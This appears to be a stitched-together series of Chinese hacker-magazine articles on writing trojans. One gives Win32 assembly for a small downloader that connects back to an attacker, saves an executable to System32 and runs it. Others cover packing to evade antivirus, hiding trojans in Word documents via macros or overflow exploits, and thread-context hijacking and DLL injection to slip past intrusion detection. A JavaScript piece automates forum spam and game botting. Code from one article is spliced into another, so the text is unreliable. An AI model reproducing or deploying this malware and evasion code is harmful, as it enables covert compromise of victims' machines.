Set fso = CreateObject("Scripting.FileSystemObject")  ' 建立 FSO 对象
Set f = fso.GetFile(filepath)
f.Attributes = ...
fso.DeleteFile Filename
```

最后删除每个盘根目录下的 Kangen.exe 文件。思路是：列出每个可用盘和盘上的文件，如果文件名为 Kangen.exe 则删除它。关键代码如下：

```vb
Set fso = CreateObject("Scripting.FileSystemObject")
For Each drv In fso.Drives
  If drv.IsReady Then
    Set f = fso.GetFolder(drv)
    Set fc = f.Files
    For Each f2 In fc
      AryReturn = Split(f2, "\")
      res2 = AryReturn(UBound(AryReturn))
      If res2 = "kangen.exe" Then
        删除这个文件
      End If
    Next
  End If
Next
```

最后一步，删除注册表启动项中病毒的键值。关键代码如下：

```vb
wso.RegWrite "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\OSA", 0, "REG_DWORD"
wso.RegDelete "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\OSA"
wso.RegWrite "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\LoadService", 0, "REG_DWORD"
wso.RegDelete "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\LoadService"
wso.RegWrite "HKEY_CURRENT_USER\Software\VB and VBA Program Settings\Pradana", 0, "REG_DWORD"
wso.RegDelete "HKEY_CURRENT_USER\Software\VB and VBA Program Settings\Pradana"
```

好了，到这里我们只需要对上面的代码及思路进行整理，便可以写出自己的杀毒软件了。

适合读者：编程爱好者、木马爱好者  
前置知识：Win32 汇编基础知识

#### Win32 汇编木马初探

文/图：曹军 / danggaui27

##### Win32 汇编木马设计思路

现在很多单位都采用单独的计算机来存放重要的涉密文件。然而如果涉密文件被盗，不仅会带来严重的经济损失，窃密者还可能逍遥法外。为了解决这个问题，我们需要对涉密文件采取某些措施，如绑定木马，在窃密者得手后木马能自动执行，并记录下窃密者的相关信息，最后及时通知监控端。上面所采取的措施，我们称为网络跟踪技术。本文所要讲述的汇编木马，就经常应用在跟踪技术中。

举个例子：在一涉密 .doc 文件中绑定一个 .exe 木马。如果木马功能复杂，并且是在 VC 等编译环境下生成，那么它的体积至少有几十 K，再加上 .doc 文件自身的数据量就非常可观了。一个大的 .doc 文件会引起窃密者的怀疑，我们的跟踪也就达不到效果。因此，我们势必要设法在不影响最终目的的前提下，尽量减小木马文件的体积。

完整的汇编木马又称为“小马”，原因有两个：一是它体积小，只有几 K；二是它的功能仅仅是反向连接攻击端，从攻击端下载并执行真正功能复杂的木马（大马）。为了便于大家理解，本文将不关心“大马”的功能实现，重点是提出汇编木马的设计思路，并尽量从基础的角度进行讨论。

1. 体积小：常规木马大多用高级语言编写，在集成环境下编译生成，虽然实现方便，但是生成的 .exe 文件体积较大。对于汇编木马，我们采用 Win32 汇编来实现，使 .exe 文件体积控制在几 K。
2. 防杀：为了避免被瑞星、卡巴斯基、江民等主流杀毒软件识别，木马文件一定要进行可靠的加壳处理。根据经验，我们选用最新的 ASProtect，加壳后的 exe 文件生存能力一般比较强。如果需要，在必要的时候还可以手动修改文件特征码。
3. 突破防火墙与进程隐藏。木马文件执行的时候需要与攻击端通信，必须访问网络。但不仅第三方的个人防火墙会阻拦你，现在 Windows XP SP2 也自带了软件防火墙。当“不可信任”的应用程序访问网络时，防火墙会报警。我的解决方法是：将网络通信部分的代码作为远程线程注入到防火墙“可信任”的进程中。这个“可信任”的进程一般是系统进程，也可以是 IE。代码的注入同时起到了进程隐藏的作用。
4. “拖动并执行”木马。这是汇编木马的核心功能，也是本文要重点举例讨论的内容。最终的监控、跟踪功能是在“大马”中实现的，它可以通过高级语言来实现，体积大小并没有什么限制。

##### Win32 汇编基础

为了进行下面的讨论，Win32 汇编是大家必须掌握的基础知识。Win32 汇编生成的程序也是运行在 Windows 保护模式下的。我们可以通过下面几个方面去了解：

1. Win32ASM 编译器
2. 环境设置
3. 编译和连接
4. Include 和 Includelib 语句的使用
5. 数据段、代码段和注释

Win32ASM 编译器最常用的有两种：Borland 公司的 Tasm50 和 Microsoft 的 Masm6.11 及以上版本。两种编译器各有自己的优缺点，本文选用 Microsoft 的 Masm6.11 进行演示。

| 变量 | 路径 |
|---|---|
| Include | F:\攻防研究\编程相关\汇编\masm611\include |
| lib | F:\攻防研究\编程相关\汇编\masm611\lib |
| path | F:\攻防研究\编程相关\汇编\masm611\bin |

汇编文件的编译：`Ml /c /coff 文件名.asm`，生成 .obj 文件；资源文件的编译：`Rc 文件名.rc`，生成 .res 文件；连接：`Link /SUBSYSTEM:WINDOWS [其他连接选项] OBJ 文件名.obj [Res 文件名.res]`。

Include 语句包含了一些系统的定义和 API 函数说明，其中所有的 Windows 数据结构定义和常量定义包含在 windows.inc 中，而很多 API 函数的说明包含在其它 .inc 中。例如 ExitProcess 函数包含在 Kernel32.dll 中，我们就要在程序中包括 `include kernel32.inc` 和 `includelib kernel32.lib` 语句；MessageBox 在 user32.dll 中，则需要包括 `include user32.inc` 和 `includelib user32.lib` 语句。

未初始化的数据定义在 `.data?` 段中，已初始化的数据定义在 `.data` 段中，而代码位于 `.code` 段中。此外，汇编代码注释用分号 `;` 来引导。

### 6. 命令行参数的提取

如果生成的 .exe 文件是带命令行参数的，那么我们可以通过 API 函数 GetCommandLine 来获取。下面用一个简单的例子来对上面的基础知识走一遍，大家就更清楚了。

```asm
.386
.model flat, stdcall
option casemap:none
include windows.inc
include kernel32.inc
include user32.inc
includelib kernel32.lib
includelib user32.lib
.data
szCaption db '命令行参数测试',0
.code
start:
    invoke GetCommandLine
    invoke MessageBox,NULL,eax,addr szCaption,MB_OK
    invoke ExitProcess,NULL
end start
```

> 如果要学习更多的汇编知识，可以参见相关《Windows 环境下 32 位汇编语言程序设计》，在网上也能下载到电子教程。

##### 简单的 Win32 汇编木马模式实现

有了上面的 Win32 汇编基础，我们现在回到正题——汇编木马的实现。由于初次介绍，这里将汇编木马的模型简化，主要实现下载并执行“木马”的功能，同时结合攻击端代码进行演示，算是为以后讨论更为复杂的汇编木马作铺垫。汇编木马主要代码如下：```asm
; 定义未初始化数据
.data?
hInstance    dd ?
sysdir       db 128 dup (?)
mainsock     dd ?
wsainfo      WSADATA <>
mainsin      sockaddr_in <>
clientinfo   sockaddr_in <>
dwRever_Ip   DWORD ?
recvbuff2    dd ?
recvbuff     db 1024 dup (?)
sendbuff     db 1024 dup (?)
location     db 256 dup (?)
bytesdone    dd ?
buffwrite    db 256 dup (?)
uplfile      dd ?

; 已初始化数据
.data
szFileName   db 'dg.exe',0
dirfmt       db '%s\\%s',0
mainport     db '80',0
szOK         db 'ok',0

.code
start:
; 初始化 winsock
invoke WSAStartup, 101h, addr wsainfo
cmp eax, 0
jnz endl

; 创建套接字
invoke socket, AF_INET, SOCK_STREAM, IPPROTO_TCP
cmp eax, INVALID_SOCKET
jz endl
mov mainsock, eax
mov mainsin.sin_family, AF_INET
mov eax, 80
push eax
call htons
mov mainsin.sin_port, ax
mov eax, dwRever_Ip
mov mainsin.sin_addr, eax

; 反连攻击端
invoke connect, mainsock, addr mainsin, sizeof mainsin
cmp eax, SOCKET_ERROR
jz endloop

; 下载接收“木马”
invoke RtlZeroMemory, addr recvbuff2, sizeof recvbuff2
invoke recv, mainsock, addr recvbuff2, sizeof recvbuff2, 0
cmp eax, SOCKET_ERROR
jz endloop
cmp eax, 0
jz endloop
invoke send, mainsock, addr szOK, sizeof szOK, 0
```

```asm
; 接收文件并放在系统目录下
upload:
invoke GetSystemDirectory, addr sysdir, sizeof sysdir
invoke wsprintf, addr location, addr dirfmt, addr sysdir, addr szFileName
invoke CreateFile, addr location, GENERIC_WRITE, FILE_SHARE_READ or FILE_SHARE_WRITE,
       NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL
mov uplfile, eax
mov bytesdone, 0

uploadloop:
invoke RtlZeroMemory, addr recvbuff, sizeof recvbuff
invoke recv, mainsock, addr recvbuff, sizeof recvbuff, 0
cmp eax, SOCKET_ERROR
jz upldone
cmp eax, 0
jz upldone
mov edx, eax
add bytesdone, eax
invoke WriteFile, uplfile, addr recvbuff, edx, addr buffwrite, NULL
invoke send, mainsock, addr szOK, sizeof szOK, 0
mov edx, recvbuff2
cmp bytesdone, edx
jnae uploadloop

upldone:
invoke CloseHandle, uplfile
invoke ShellExecute, NULL, NULL, addr location, NULL, NULL, SW_SHOWNORMAL

endloop:
invoke closesocket, mainsock
endl:
end start
```

按照前面的方法编译，生成可执行程序 down_exec.exe。这就是简单的汇编木马，体积仅约 2.5k。攻击端可监听 80（110、25 等隐蔽端口也可），等待木马连接并传送执行“大马”。具体代码见光盘中的 Server.cpp，此处不再赘述。这里示例使用 dg.exe，在 D 盘根目录下生成 1.txt 便于检验。

下面进行测试：先生成攻击端 Server.exe，将 tools 目录、Server.exe 和汇编木马 down_exec.exe 一同放到“演示工具目录”中，如图 3 所示。双击 Server.exe 和 down_exec.exe。


## 图 3

大家可以检查 D 盘下是否生成了 1.txt，同时看看系统的 System32 目录下是否有一个 dg.exe。

##### 木马文件绑定技术

最后，我们来讨论一下木马文件的绑定。我们的汇编木马不仅可以绑定在 .doc、.pdf 等文件中起到保护作用，还可以绑定在 .png、.jpg、.wmf 等图片文件中制作成网页木马。文件绑定是比较容易实现的，但是要在母体文件打开时自动生成并执行木马文件却有很多限制，相信做过这方面工作的朋友都有所体会。

绑定文件的方法视文件母体的不同而不同，这里以在 .doc 文件中绑定 .exe 文件为例。向 .doc 文件中绑定 .exe 文件后，要在打开该 .doc 文件的时候自动生成并执行该 .exe 文件，方法大致有两个。

- 1. 利用 Word 提供的宏机制

举个例子。要将 1.exe 绑定到 2.doc 中，通过命令 `copy /b 2.doc+1.exe new2.doc` 即可实现。要从 new2.doc 中提取出 1.exe，则必须用 Word 宏机制提供的 VBA 编程来实现。这种实现方式容易受到 Word 宏机制安全设置的限制，详细介绍大家可以参考《Word 溢出漏洞的分析和利用》一文。

- 2. 利用 Word 溢出漏洞

这种方式虽然实现复杂，但效果却好于前一种。利用 Word 的溢出漏洞，我就可以构造特定的 Doc 文件，当窃密者打开该文件时，由于 Word 发生缓冲区溢出而执行任意代码。具体思路如下。

我们的特定 .doc 文件为 abc.doc，物理上由 3 部分构成，如图 4 所示。

| 组成 |
|---|
| 溢出 doc 模板 |
| 真正涉密的 doc |
| Exe 文件 |

开头部分是溢出 DOC 模板，它可导致 Word 发生溢出。溢出之后执行其中的 ShellCode，判断是否为合法用户（通过硬件信息判断），如果是则提取并生成真正涉密的 DOC，再调用 Winword.exe 打开该文件；如果不是合法用户，则不生成真正涉密的 DOC，而直接生成并执行第 3 部分→EXE 文件。对于本文而言，这里的 Exe 文件就是我们的汇编木马。

##### 小结

在本文中，我们讨论了汇编木马的应用背景、整体设计思路以及部分代码实现，并简单介绍了木马文件绑定技术。希望能对大家有所帮助。其实木马技术可浅可深，关键还是一步步掌握好基础知识，只有基础牢固了，才能打造你自己的“千里马”。

适合读者：程序设计者，木马编写爱好者  
前置知识：C++ 基础，Windows 下编程经验



#### 让你的木马藏得更深——线程注射技术新发展（下）

文/图 BlackBeast

##### 简介

上期说到，CreateRemoteThread 已经被大多的 IDS 识别为木马的特征之一，所以我们在自己的木马中使用它开启远程线程后并不能保证自身的安全。就好像自己脸上写着“我是贼”，然后明目张胆地去“偷”东西一样可笑。在这里，本文为大家介绍一种新的远程线程开启方法，它可以绕过很多 IDS 的检测。此外，这次我们所使用的 API 会比 CreateRemoteThread 具有更好的兼容性，能够保证木马在 Windows 98 下正常运行。下面我们先来熟悉下背景知识。

##### 背景知识

###### 函数调用原理

写一个最简单的函数，并且在我们的程序中调用，如下所示：

```cpp
DWORD WINAPI TryThreadFun(LPVOID lpParam)
{
    MessageBox(NULL,"Success!","hahah",MB_OK);
    return 0;
}

int _tmain(int argc, _TCHAR* argv[])
{
    TryThreadFun(NULL);
    getch();
    return 0;
}
```

我们在函数设置处设置断点，然后进入到汇编代码中，如下所示：

```asm
00411B5E  push 0
00411B60  call TryThreadFun (4110E6h)
```

在这里，PUSH 0 就是针对该函数参数 NULL 进行的操作。在函数被调用之前，首先要把参数压入栈顶，以后我们再需要调用参数时，就可以直接从栈顶获得。

##### 相关 API

本方法需要调用如下 API：

- 1. **CreateProcess**  
  提起它很多人都会觉得熟悉：“不是创建一个新的进程么？”然而真正能完全熟悉该函数功能的人并不多，通过设置不同的参数，该 API 可以完成对新创建进程输入输出流的重定位，设置新进程对应核心对象的安全属性等功能。在这里，我们只需要关心怎么获得进程内核对象和线程内核对象，所以我们只需要关注它的最后一个参数 `LPPROCESS_INFORMATION lpProcessInformation`。该结构体有 4 个成员变量：新创建进程的进程对象、进程 ID、线程对象、线程 ID。CreateProcess 返回时，上述变量便可获得。

- 2. **GetThreadContext**  
  它主要是用来获得特定线程的上下文环境信息。此函数有两个参数，`hThread` 指定目标线程句柄，`lpContext` 指向一个 `CONTEXT` 结构。GetThreadContext 函数会将目标线程的环境返回到此结构中。在执行函数前，必须设置 `CONTEXT` 结构中的 `ContextFlags` 字段，它指定了需要操作的寄存器范围。访问通用寄存器可以指定 `CONTEXT_INTEGER`，访问段寄存器可以指定 `CONTEXT_SEGMENTS`，要访问全部寄存器则指定为 `CONTEXT_FULL`。

- 3. **SetThreadContext**  
  本函数与 GetThreadContext 功能相对应：用来设置特定线程的上下文环境信息。需要注意的是，这两个函数必须针对挂起的线程使用，否则中途出现线程切换操作会导致无法预知的后果。

- 4. **ResumeThread**  
  顾名思义，就是将挂起的线程恢复运行。

###### 代码分析

由于代码部分与上期文章大部分相同，在此只介绍不同的部分——开启远程线程。

```cpp
if((pImage = (LPBYTE)TheTool.LoadDLLToMem()) == NULL)
{
    TheTool.ErrorOut("Load Error");
    __leave;
}
```

将 DLL 文件载入内存，具体方法和作用参见相关文章。

```cpp
if (!(CreateProcess(NULL, "notepad.exe", NULL, NULL,
    TRUE, NORMAL_PRIORITY_CLASS | CREATE_SUSPENDED, NULL, NULL, &sui, &pi)))
{
    TheTool.ErrorOut("Create Process Error");
    __leave;
}
```

以上操作完成了创建宿主进程的工作，本例中我们创建一个记事本进程。注意，创建时必须使新创建的进程挂起，以便进行后续工作。

```cpp
hProcess = pi.hProcess;
hThread = pi.hThread;
```

```cpp
if((pInjectPos = (LPBYTE)VirtualAllocEx(hProcess, NULL,
    TheTool.PImageNtHeader->OptionalHeader.SizeOfImage,
    MEM_COMMIT, PAGE_EXECUTE_READWRITE)) == NULL)
{
    TheTool.ErrorOut("Alloc Space Error");
    __leave;
}
TheTool.ConstructData(pImage, pInjectPos,
    (PVOID*)&pEntry, (PVOID*)&pParam);
if(!WriteProcessMemory(hProcess, pInjectPos, pImage,
    TheTool.PImageNtHeader->OptionalHeader.SizeOfImage, NULL))
{
    TheTool.ErrorOut("Write Target Process Memory Error!");
    __leave;
}
```

以上操作完成向目标进程写入远程线程函数代码。

```cpp
cntxt.ContextFlags = CONTEXT_FULL;
if (!GetThreadContext(hThread, &cntxt))
{
    TheTool.ErrorOut("Get Thread Context Error");
    __leave;
}
```

以上操作负责获取宿主进程的线程上下文环境。

`cntxt.Eip = (DWORD)pEntry;`

这句话是设置宿主进程的 Eip 寄存器。Eip 寄存器存放了一个指向程序即将运行代码的指针，平时我们研究溢出经常需要覆盖该指针以改变溢出对象的运行路线。在这里，我们把它设置为 pEntry，也就是我们写入宿主进程空间的远程线程代码。

```cpp
DWORD ParamentAddress=(DWORD)pParam;
if (!WriteProcessMemory(hProcess, (LPVOID)(cntxt.Esp - sizeof(DWORD)),
    (LPVOID)&ParamentAddress, sizeof(DWORD), &dummy))
{
    TheTool.ErrorOut("Write Parament Error");
    __leave;
}
if (dummy != sizeof(DWORD))
{
    TheTool.ErrorOut("Write Parament Error");
    __leave;
}
cntxt.Esp -= sizeof(DWORD)*2;
```

以上程序用来设置线程函数参数。在背景知识中，我们介绍了函数调用相关原理，也就是说一个函数在被调用之前，其参数已经被压栈。众所周知，线程函数的参数是一个 VOID 型指针，指向任意参数结构体对象，所以我们首先把参数写入目标进程地址空间 `TheTool.ConstructData(pImage, pInjectPos, (PVOID*)&pEntry, (PVOID*)&pParam);`，然后模拟压栈操作。在 Windows 系统中，栈是由高地址向低地址增长，而且每次压栈操作后，栈顶指针会比实际栈顶位置提前一个 DWORD 长度，所以我们需要使用 `cntxt.Esp -= sizeof(DWORD)*2` 调整栈顶指针的值。

适合读者：网络爱好者，编程爱好者  
前置知识：JavaScript 基础知识

##### JavaScript 与外挂

文／图 贼熊


不少虚拟社区都有宠物宝宝、社区宠物之类的宠物系统。虽然只是单纯的打怪练级，但还是吸引了不少玩家。最近我的一个同学也迷上了这种游戏，他常常蹲在电脑前，点一下“攻击”，然后等页面刷新……我看得实在不耐烦了。别人玩宠物，是用一个月把宠物练到 100 级。我们玩宠物，是用一星期写程序，然后用两个星期把宠物挂到一百级——这就叫磨刀不误砍柴功。毕竟这就是知识的力量。

我觉得此程序很容易入手，对于软件部分，只需要文本文档。而程序语言我打算用 JavaScript……尽管很多人都以为它只能写网页特效，所以不怎么重视。但是不要紧，只要有 C 的基础就能看懂，而且一些关键部分我做了详细说明。

##### 练兵

首先我们先来做些剧情介绍，权当练兵。JavaScript 中有两个延时函数：setInterval 与 setTimeout。

```javascript
setTimeout("function", time);
setInterval("function", time);
```

两者的作用相似，都是在 time 时间（单位毫秒）后调用 function 函数。所不同的是 setInterval 会自动重复，setTimeout 不会重复。

先来做个小实验，大家创建一个文本文档，在其中输入以下语句：

```html
<script language="JavaScript">
setTimeout("alert('hh')",2000);
</script>
```

然后保存退出，把这个文档改名为 trv1.html，用 IE 打开，会弹出如图 1 所示的窗口。`alert("hh")` 是 JavaScript 中的常用函数，作用是弹出提示框。这里使用 setTimeout 函数，设置在 2000 毫秒后调用 `alert("hh")`，从而弹出提示框。大家可以试着用 setInterval 替换 setTimeout 再做一次实验。



##### 灌水

社区币是你养宝宝的根源所在，而发帖可以赚社区币。所以这里我先写个自动灌水机来发笔小财。不过注意，要使用此灌水机的前提是该论坛有提供水库之类的地方让你乱灌，否则被封号的话得不偿失。我的思路是，先在本地做个帖子的自动提交页 form.html，然后再做一个页面 ctrl.html，在其中使用 setInterval 函数来实现在新窗口中不断打开 form.html。



通过浏览器的“查看/查看源文件”来观察它的 HTML 代码。帖子提交到服务器一般采用表单的形式，我们可以找出代码中的 `<form></form>` 之间的部分，整个复制下来。然后根据 HTML 语言的格式，补充上其他部分建立一个 form.html。

```cpp
if (!SetThreadContext(hThread, &cntxt)) {
    TheTool.ErrorOut("Set Thread Context Error");
    __leave;
}
```

```cpp
if (!ResumeThread(hThread)) {
    TheTool.ErrorOut("Resume Thread Error");
    __leave;
}
```

##### 小结

相较于 CreateRemoteThread，这种使用方式安全多了。需要注意一点：我们开启远程线程后，一旦主线程函数返回（也就是对 DllEntry 的远程线程），整个进程也宣告结束。此刻即便有其他线程未结束，也会一并退出，希望大家注意。

为了实现自动发帖，我们还需要做几个小的改动。打开 `form.html` 的源代码，修改以下三个地方。

- 把 `<body>` 改为 `<body onLoad="FORM1.submit();">`，表示页面加载时先执行 `FORM1.submit()` 提交表单。
- 修改 `<FORM name=FORM1 action=... method=post>`，补上 `name`，并把 `action` 改为绝对路径：`http://www.gamedorp.com/post.php`。
- 修改表单内容，直接写入要发布的帖子内容。

```html
<TEXTAREA name=atc_content rows=8 cols=100>
灌水不是好孩子的行径。
</TEXTAREA>
```

还可以通过设置标志的 `value` 属性来填写这些值。修改完后保存退出，浏览器会自动转到帖子页面，因此还要设置一个控制程序不断打开提交页面。

```html
<html>
<script language="JavaScript">
var newWin
function start(){
  newWin=window.open("form.html");
  setInterval("openLink()",25000);
}
function openLink(){
  newWin.location="form.html";
}
</script>
<body onLoad="start();">
</body>
</html>
```

代码很简单，这里设置 25 秒发一次帖（可按机器承受能力调整）。现在打开 `ctrl.html`，开始自动灌水。

##### 打怪

网络宠物的练级，其原理就是点击各个相应的页面链接。而服务器会根据该页面脚本对宠物资料数据库进行操作。

例如点击加血链接，服务器执行加血操作；点击攻击、寻找怪物等链接也会执行对应动作。我们要做的就是把玩家原本手动点击的页面按顺序串起来，让程序自动执行。

```text
while(1){
  for(i=0;i<5;i++){
    for(j=0;j<3;j++){
      打怪;
    }
    寻找新怪物;
  }
  加血;
}
```

以上是大概思路。真实程序中需考虑网络堵塞问题，避免持续快速打开页面导致服务器无响应，可用 `setTimeout` 设置时间间隔。

- 攻击：`http://www.gamedorp.com/petpknpcf.php?action=pknpc`
- 寻找新怪物：`http://www.gamedorp.com/petshop.php?index=petpknpcn`
- 使用血药：`http://www.gamedorp.com/petinfo.php?action=usehp`

此外还有魔法技能、加 MP 的链接，可按需要自行设置。接着开始编程：先新建文本文件，输入基本框架。

```html
<html>
<script language="JavaScript">
</script>
<body>
</body>
</html>
```

在 `<script></script>` 之间写入程序，先定义链接变量：

```javascript
var findNPC=new String("http://www.gamedorp.com/petshop.php?index=petpknpcn"); // 寻找新怪
var attack=new String("http://www.gamedorp.com/petpknpcf.php?action=pknpc"); // 攻击
var usehp=new String("http://www.gamedorp.com/petinfo.php?action=usehp"); // 加HP
```

定义一个函数，用来执行各个链接：

```javascript
function execute(address){
  petWin.location=address; // 设置该窗口链接为传入参数值
}
```

这里为函数设置参数 `i`，每次加 1，用做计数器。如果能被 2、1 整除，就表示应该喝血药；能被 4 整除，就表示该寻找新怪物，否则都是攻击：

```javascript
function ctrl(i)
{
  if(i%2!==0)
  {
    execute(usehp);
    i=4;
  }
  else
  {
    if(i%4!==0)
      execute(findNPC);
    else
      execute(attack);
    i++;
  }
  setTimeout("ctrl("+i+")",1000);
}
```

接着初始化函数：

```javascript
function start() // 初始化函数
{
  // 以下只是随便打开一个窗口而已，链接到哪里没有影响。
  petWin=window.open("http://www.gamedorp.com");
  setTimeout("ctrl(4)",1000);
}
```

当然，要在 `body` 标签中加入 `onLoad="start();"`。把这三个函数综合起来，就可以挂机了。运行后一切正常。

##### 废话

这里要注意一点：你需要先登录社区，然后运行这些程序才有用。因为现在大部分社区都设置了自动登录，我们只要登录一次，本地就会出现 COOKIES 信息，下次可以通过 COOKIES 直接登录。这也是用 JavaScript 写程序的一大好处，浏览器会自动向对方服务器发送 COOKIES 信息，而不用自己去打包。

但这么做也有坏处，我们无法对服务器的反馈信息进行判断。例如遇上超级 BOSS，程序还是会一无反顾地杀上去。我们可以设置一百次循环后，使用一次复活药水。具体怎么改就当作课后作业了。毕竟我上面讲了这么多，如果你连这些都不会改，黑防真的是白看了。

对于以上缺点，用 .Net 的 HttpWebRequest 对象是可以解决的。然而本文主要是讲述 JavaScript，至于 .Net，有兴趣的朋友可以自行查看。

Socket：很长一段时间木马没有什么新功能出现了，然而木马的隐藏方式却在杀毒软件和木马专杀工具的胁迫下一日千里地成长起来。

适合读者：木马爱好者，编程爱好者  
前置知识：C 语言基础


#### 隐蔽的木马启动方法

文/图 刘奇

按照木马隐藏方式来说，可以分为以下两类。第一类：冰河这种在系统中存在进程的木马，我们只需要一个任务管理器就可以搞定。第二类：无进程木马。一般而言操作系统是以进程为调度单位的，也就是说无进程木马本质上是不存在的，除非脱离操作系统。那么我们常见的木马是如何实现“无进程”呢？有两种方法。

第一种方法是寄生，虽然操作系统是以进程为调度单位，但其调度的基本单位是线程，所以木马可以以线程的方式存在于其它进程中，就像寄生虫一样，这种方式的隐蔽性极强。第二种方法是隐藏本身进程，通过采用各种手段隐藏自身的进程，如 Hook API 等。

- 启动方式，如通过写注册表、替换系统文件、关联文件等等。
- 连接网络（本质上一定要使用端口，虽然可以用各种手段隐藏端口）。
- 进程必然存在，前面已经提到了。

这些是不少高手研究的方向，本文尝试对木马的启动方式做出新的改进，以期得到更好的隐蔽性。目前流行的 DLL 木马，由于其隐蔽性强、操作系统自动完成重定位，编写方便而被木马编写者广泛采用。但它还有一个缺点：启动方式不够隐蔽。本文接下来讨论如何进一步改进。

```cpp
// 使用WriteProcessMemory函数将DLL的完整路径名复制到远程进程堆的内存空间中
if (WriteProcessMemory(hRemoteProcess,
    pszLibFileRemote, (void*)DLLFullPath, strlen(DLLFullPath)+1, NULL) == 0)
{
    printf("WriteProcessMemory error!\n");
    return FALSE;
}

// 计算LoadLibraryA的地址
LPTHREAD_START_ROUTINE pfnStartAddr =
    (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
if (pfnStartAddr == NULL)
{
    printf("GetProcAddress error!\n");
    return FALSE;
}

// 在远程进程中启动LoadLibraryA
HANDLE hRemoteThread;
if ((hRemoteThread = CreateRemoteThread(
    hRemoteProcess, NULL, 0,
    pfnStartAddr, pszLibFileRemote, 0, NULL)) == NULL)
{
    printf("CreateRemoteThread error!\n");
    return FALSE;
}
```

| Ordinal | Hint | Function | Entry Point |
|---|---|---|---|
